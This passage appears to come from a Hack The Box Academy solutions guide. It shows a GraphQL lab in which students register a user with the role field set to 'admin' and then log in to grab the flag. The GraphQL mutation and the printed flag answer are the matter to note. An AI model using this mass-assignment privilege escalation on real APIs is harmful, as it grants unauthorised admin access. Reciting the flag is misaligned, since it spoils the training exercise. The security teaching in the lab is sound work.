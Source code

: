 ![[HTB Solutions/Others/z. images/c3368d47302296b6efa3d02966078605_MD5.jpg]]

Students will open a terminal and will choose a password to be converted into an MD5 hash which will be used in the subsequent registration step:

Code: shell

```shell
echo -n 'StudentAcademy' | md5sum
```

```
┌─[eu-academy-5]─[10.10.15.120]─[htb-ac-8414@htb-3ffingchf8]─[~]
└──╼ [★]$ echo -n 'StudentAcademy' | md5sum

0be3788074058f551b16e601e2e79b30  -
```

Next, students will register a new user using the mutation specifying `admin` as the role for the user in the `role` field and placing the hashed password in the `password` file using the following query:

Code: graphql

```graphql
mutation {
  registerUser(input: {username: "AcademyStudent", password: "0be3788074058f551b16e601e2e79b30", role: "admin", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

![[HTB Solutions/Others/z. images/04843ea0af1aec0b9ba8a17d6efa218c_MD5.jpg]]

Subsequently, students will open a new tab in Firefox, visit the root login page of the target, and log in using the credentials of the newly created user:

![[HTB Solutions/Others/z. images/359016992ea19d26218f6ef354060547_MD5.jpg]]

Students will navigate to the `Admin Area` to obtain the flag:

![[HTB Solutions/Others/z. images/64b43d97e4ab685c15022b9dcf8ed55e_MD5.jpg]]

Answer: `HTB{f7082828b5e5ad40d955846ba415d17f}`

# Skills Assessment

## Question 1
